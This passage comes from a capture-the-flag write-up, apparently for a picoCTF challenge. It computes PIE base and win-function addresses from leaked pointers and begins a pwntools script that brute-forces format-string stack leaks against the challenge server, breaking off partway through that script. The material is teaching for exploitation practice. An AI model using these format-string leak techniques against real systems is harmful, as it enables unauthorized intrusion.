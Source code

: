 That 0x555555555400 address looks familiar!  Awesome, so now let's figure out Main's offset from the start of the program (yes GDB makes it very easy to find this info, but when we connect to the server the memory addresses will be different thanks to PIE).

So 0x555555555400 - 0x555555554000 = 0x1400.  Amazing!  This offset will be the same no matter where the program is run.  So let's run the program and try out our payload without gdb:

![No GDB](https://github.com/user-attachments/assets/d8a68d5c-195a-4d71-8e0b-dba30bc8440d)

Start of Main:  0x561764140400
Offset: 0x1400
Start of Program:  0x561764140400 - 0x1400 = 0x56176413F000 (Ends in 000, this checks out)
Location of Win:  0x56176413F000 + 0x136a = 0x56176414036A

Let's give it a shot:

![You sorta Win](https://github.com/user-attachments/assets/60df1b56-e1aa-4080-927b-7c94d0e04183)

Yay! Looks like we've got it, time to try our solution out on the web server.

## Web Server
![Uh Oh](https://github.com/user-attachments/assets/24207c0f-a088-4ecd-844b-5f9851eb0b3f)

Uh oh.  That looks off, let's try the math:

Location of Main:  0x7fff2cfc7348
Offset:  0x1400
Start of Program:  0x7fff2cfc7348 - 0x1400 = 0x7fff2cfc5f48 (does not end in 000, probably wrong)

Ok, well that's annoying.  It seems like the stack may be different on the remote server for whatever reason.  This will be very annoying to figure out without some automation, so let's automate!

## Automation
The below script is what I eventually came up with to solve the problem:

``` python
#! /usr/bin/python3
from pwn import *
import itertools


port = int(input("Please enter the port: "))

# Loops through the values 1-40, trying out those stack locations.
for i in range(1,40):
 try:
  print("Currently on %s" % i)

  # Sets up the vuln binary exe as the test binary.
  # We can manipulate that to find win's location without having to do math.
  elf = context.binary = ELF('./vuln')
  # Connects to the remote server with the user provided port.
  p = remote("rescued-float.picoctf.net", port)

  # Reads through the connection text until it reaches the string 'name:'
  p.recvuntil(b'name:')

  # Sends the line that we'll be using to get the leak, .encode is necessary to quiet an annoying
  # pwntools warning.
  p.sendline(f'%{i}$p'.encode())
  # Grabs the leak from the web server.
  elf_leak = int(p.recvline(), 16)
  # Sets the start of the local binary executable's memory to what will hopefully be the web server's start.
  elf.address = elf_leak - 0x1400
```